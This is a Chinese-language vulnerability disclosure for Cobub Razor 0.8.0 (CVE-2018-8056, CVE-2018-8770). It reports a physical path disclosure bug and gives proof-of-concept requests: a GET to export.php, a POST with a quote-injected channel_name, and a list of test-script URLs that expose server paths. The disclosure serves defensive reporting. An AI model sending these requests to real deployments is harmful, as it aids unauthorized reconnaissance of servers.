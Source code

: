 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub-Razor-0.8.0存在物理路径泄露漏洞|2018-04-20|Kyhvedn（yinfengwuyueyi@163.com、kyhvedn@5ecurity.cn）|[http://www.cobub.com/](http://www.cobub.com/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) | 0.8.0| [CVE-2018-8056](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8056)/[CVE-2018-8770](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8770)|  

#### 漏洞概述  

> Cobub-Razor-0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。   

### POC实现代码如下：  

> 方法一：  

``` raw
URL: http://localhost/export.php
HTTP Method: GET
URL: http://localhost/index.php?/manage/channel/addchannel
HTTP Method: POST
Data: channel_name=test"&platform=1
```
> 方法二：  
> Cobub-Razor-0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统。

``` raw
HTTP Method: GET
http://localhost/tests/generate.php
http://localhost/tests/controllers/getConfigTest.php
http://localhost/tests/controllers/getUpdateTest.php
http://localhost/tests/controllers/postclientdataTest.php
http://localhost/tests/controllers/posterrorTest.php
http://localhost/tests/controllers/posteventTest.php
http://localhost/tests/controllers/posttagTest.php
http://localhost/tests/controllers/postusinglogTest.php
http://localhost/tests/fixtures/Controller_fixt.php
http://localhost/tests/fixtures/Controller_fixt2.php
http://localhost/tests/fixtures/view_fixt2.php
http://localhost/tests/libs/ipTest.php
http://localhost/tests/models/commonDbfix.php
```
